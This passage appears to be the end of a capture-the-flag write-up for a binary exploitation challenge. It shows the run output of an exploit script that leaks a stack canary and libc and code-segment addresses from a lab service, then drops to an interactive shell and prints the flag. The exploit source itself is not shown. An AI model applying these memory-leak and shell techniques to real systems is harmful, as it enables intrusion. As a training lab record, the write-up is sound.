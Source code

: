 ```python

r.interactive()
```

```bash
$ python exp.py
[+] Starting local process './chal': pid 5857
[+] Opening connection to 10.113.184.121 on port 10056: Done
[b'aaaaaaaaaaaaaaaaaaaa hachamachama', b'ECHO HACHAMA!']
[*] [-------------Stack Info-------------]
[*] 0x414d4148434148
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x0
[*] 0x2be6a8b7acfcbc00
[*] 0x1
[*] 0x7fef436ccd90
[*] 0x0
[*] 0x560ff1bf4331
[*] [-------------Stack Info-------------]
[+] Canary = 0x2be6a8b7acfcbc00
[+] libc start main base = 0x7fef436ccd10
[+] libc base addr = 0x7fef436a3000
[+] Main Function Address = 0x560ff1bf4331
[+] Code Segment = 0x560ff1bf4000

[*] Switching to interactive mode
flag{https://www.youtube.com/watch?v=qbEdlmzQftE&list=PLQoA24ikdy_lqxvb6f70g1xTmj2u-G3NT&index=1}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Segmentation fault
[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to 10.113.184.121 port 10056
[*] Stopped process './chal' (pid 5857)
```

Flag: `flag{https://www.youtube.com/watch?v=qbEdlmzQftE&list=PLQoA24ikdy_lqxvb6f70g1xTmj2u-G3NT&index=1}`